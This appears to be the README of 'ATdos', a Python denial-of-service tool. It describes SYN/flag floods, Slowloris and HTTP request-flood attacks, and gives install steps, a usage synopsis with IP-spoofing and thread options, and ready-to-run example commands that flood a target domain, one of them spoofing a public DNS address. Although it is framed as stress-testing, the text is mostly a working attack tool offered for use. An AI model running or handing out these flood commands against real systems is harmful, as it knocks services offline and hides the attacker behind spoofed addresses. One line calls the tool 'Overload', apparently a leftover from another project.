 # ATdos

This a very powerful denial of service (DDoS) program. It is very efficient and portable, it is stable and useful for stress-testing companies, it currently has three attack methods. 1) SYN/ICMP with 6 flags including fin, syn, rst, ack, psh and urg. 2) Slowloris/SLOW uses sock.connect to attack. 3) Request/Requester uses httplib to attack. You either choose one of the three attack methods or you can choose all three!   
## Getting Started

You will need a few different modules installed to execute Overload.

### Modules

You will have to use pip to install the modules, colorama, termcolor & requests
```
sudo apt-get install python-pip
```
```
sudo yum install python-pip
```
### Module Installing

Using pip you can install the following modules

```
sudo pip install colorama termcolor requests
```


## Install ATdos

```
git clone https://github.com/nacgalevin/ATdos
```
```
cd ATdos
```
```
chmod +x *
```
```
./install.py
```
## Usages
```
usage: ./ATdos.py -target [target] -port [port] -threads [number threads]

optional arguments:
  -h, --help           show this help message and exit

options:

  -target <ip/domain>  Specify your target
  -timeout <timeout>   Timeout for socket
  -threads <threads>   Set threads number for connection (default = 1000)
  -port <port>         Specify port target (default = 80)
  -sleep <sleep time>  Set sleep time for reconnection
  -spoof <spoofed ip>  Specify spoofed IP address
  -request             Enable request target
  -syn                 Enable syn attack
  -slow                Enable slow attack
  -fakeip              Option to create fake ip if not specifed for spoofed ip
```
## Examples
Slowloris/SLOW attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -slow
```
Request/Requester attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request
```
SYN/6 flagged ICMP attack method
```
./ATdos.py -target www.target.com -syn -threads 5000
```
SLOW/Request/SYN attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn
```
SLOW/Request/SYN spoofed IP attack method
```
./ATdos.py -target www.target.com -port 80 -threads 2000 -request -slow -syn -spoof 8.8.8.8
```
